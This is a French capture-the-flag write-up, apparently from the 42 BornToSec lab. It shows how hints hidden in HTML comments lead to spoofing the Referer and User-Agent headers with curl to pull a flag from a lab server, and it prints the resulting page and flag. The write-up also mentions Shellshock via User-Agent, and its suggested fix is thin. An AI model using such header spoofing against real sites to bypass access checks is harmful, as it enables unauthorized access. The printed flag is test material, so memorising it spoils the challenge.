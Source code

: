 # Changer le header de la requête HTTP

## Prémuble

Quand nous demandons une page via le protocole HTTP ou HTTPS nous transméttons des données dans l'en-tête de la requête (invisibles pour les moldus).

Ce sont des données en touts genre comme le nom du navigateur, les cookies de la session, ou bien encore la pages d'où nous venions...

## Explication

Quand nous explorons un peu le code du site web, nous pouvons voir que dans le `footer` du site il y a un lien un peu étrange, celui du copyright `© BornToSec` qui nous redirige vers cette url `http://192.168.56.103/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c`.

Sur cette page, si nous continons l'exploration du code source de la page, nous trouvons des commentaires html très long:

```
<!--
Voila un peu de lecture :

MAN (42) EPITECH

NAME
EPITECH ou {EPITECH.}

SYNOPSIS
École d'informatique en 5 ans après bac. [...] la page de discussion). </poll>
-->
<!--
Fun right ?
source: desencyclopedie.
Good bye  !!!!
-->
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
<!--
Voici un article pas mal :

France – La menace d’une chanson [...] fait ? »

source:legarofi
-->
<!--
				Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

Nous pouvons voir qu'il nous donnes des indices pour récuperer le flag que contient la page, il faudrait venir du site de la [nsa](https://www.nsa.gov/) en utilisant le navigateur `ft_bornToSec`.

Pour réussir ce challenge nous devons donc modifier le header HTTP de la requête, pour cela il existe une commande magique `curl`.

Avec cette commande, et ces paramètre nous pourrons récupérer la page avec le flag: `curl --user-agent "ft_bornToSec" --referer https://www.nsa.gov/ http://192.168.56.103/index.php\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c`

Petit explication de la commande:

`--user-agent "ft_bornToSec"` est un paramètre qui prendras le prochain argument comme user-agent, c'est à dire le nom du navigateur que nous voulons utiliser

`--referer https://www.nsa.gov/` ce paramètre si, demanderas en arguments une url celle que nous voulons et qui serviras pour dire de quel site nous venons.

Le reste est la page que nous demendons.

Voici le résultat de la commande:

```html
<!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		[...]
	</head>
	<body class="landing">
		<!-- Header -->
		<header id="header" >
								<a href=http://192.168.56.103><img src=http://192.168.56.103/images/42.jpeg height=82px width=82px/></a>
								<nav id="nav">
					<ul>
						<li><a href="index.php">Home</a></li>
						<li><a href="?page=survey">Survey</a></li>
						<li><a href="?page=member">Members</a></li>
					</ul>
				</nav>
			</header>

		<!-- Main -->
			<section id="main" class="wrapper">
				<div class="container" style="margin-top:75px">
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
</audio>
<script language="javascript">function coucou(){document.getElementById('best_music_ever').play();}</script>

Les Diomédéidés [...] planeurs.
<p style="font-size:0.8em; font-style:italic; color:#666; text-transform: none;"><a href="https://fr.wikipedia.org/wiki/Albatros">Source: Wikipedia</a></p>
<br />
<center><a href="https://www.youtube.com/watch?v=Bznxx12Ptl0"><img src="images/albatroz.jpg" onload="coucou()"/></a></center>
<!--
[...]
-->
				</div>
			</section>
		<!-- Footer -->
			<footer id="footer">
				<div class="container">
					<ul class="icons">
						<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
						<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
						<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
					</ul>
					<ul class="copyright">
						<a href="?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"><li>&copy; BornToSec</li></a>
					</ul>
				</div>
			</footer>
	</body>
</html>
```

Dans la page que nous venons de récuperer nous pouvons y trouver le flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## Pourquoi ceci est une faille ?

Çe writeup peut-être une faille car la chaîne `user-agent` est traiter par les serveurs web, pour délivrer une page web plus adapter à l'appareil utiliser par l'utilisateur.

Des vulnérabilitées ont été découvertes sur les serveurs web, qui permet d'envoyer un shellshock via l'user-agent qui donne un accèss à `bash`.

## Solution

Une solution pour éviter cette faille est de mettre en place un script qui met à jour régulièrement les packages du serveur automatiquement, pour que les correctifs du serveurs web soit appliqué.

## Documentation

https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/
